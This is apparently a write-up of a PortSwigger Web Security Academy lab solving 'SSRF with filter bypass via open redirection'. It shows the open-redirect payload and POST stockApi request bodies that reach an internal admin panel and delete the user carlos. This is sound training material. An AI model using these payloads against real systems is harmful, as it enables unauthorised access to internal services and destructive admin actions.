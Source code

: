 
# 9 - SSRF with filter bypass via open redirection vulnerability

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://192.168.0.12:8080/admin and delete the user carlos.

The stock checker has been restricted to only access the local application, so you will need to find an open redirect affecting the application first.


---------------------------------------------

Reference: https://portswigger.net/web-security/ssrf



![img](images/9%20-%20SSRF%20with%20filter%20bypass%20via%20open%20redirection%20vulnerability/1.png)



---------------------------------------------

Generated link: https://0abd004b03b8fa4e80328aba002a00f0.web-security-academy.net



![img](images/9%20-%20SSRF%20with%20filter%20bypass%20via%20open%20redirection%20vulnerability/2.png)

POST request with data “stockApi=/product/stock/check?productId=1&storeId=1”



![img](images/9%20-%20SSRF%20with%20filter%20bypass%20via%20open%20redirection%20vulnerability/3.png)


The endpoint is reachable through a GET request in https://0abd004b03b8fa4e80328aba002a00f0.web-security-academy.net/product/stock/check?productId=1&storeId=1 as well:



![img](images/9%20-%20SSRF%20with%20filter%20bypass%20via%20open%20redirection%20vulnerability/4.png)

There is a “Next product” button:



![img](images/9%20-%20SSRF%20with%20filter%20bypass%20via%20open%20redirection%20vulnerability/5.png)

It uses the “path” parameter to set the id of the next product to display and redirecto to that page:



![img](images/9%20-%20SSRF%20with%20filter%20bypass%20via%20open%20redirection%20vulnerability/6.png)

We test the folowing payload and find the open redirection:

```
/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin
```



![img](images/9%20-%20SSRF%20with%20filter%20bypass%20via%20open%20redirection%20vulnerability/7.png)

Now we will create a new POST request using this payload as the stockApi parameter:

```
POST /product/stock HTTP/2
...

stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin
```



![img](images/9%20-%20SSRF%20with%20filter%20bypass%20via%20open%20redirection%20vulnerability/8.png)

Reading the HTML code we see the user carlos can be deleted with a GET request like http://192.168.0.12:8080/admin/delete?username=carlos



![img](images/9%20-%20SSRF%20with%20filter%20bypass%20via%20open%20redirection%20vulnerability/9.png)

```
POST /product/stock HTTP/2
...

stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin/delete?username=carlos
```



![img](images/9%20-%20SSRF%20with%20filter%20bypass%20via%20open%20redirection%20vulnerability/10.png)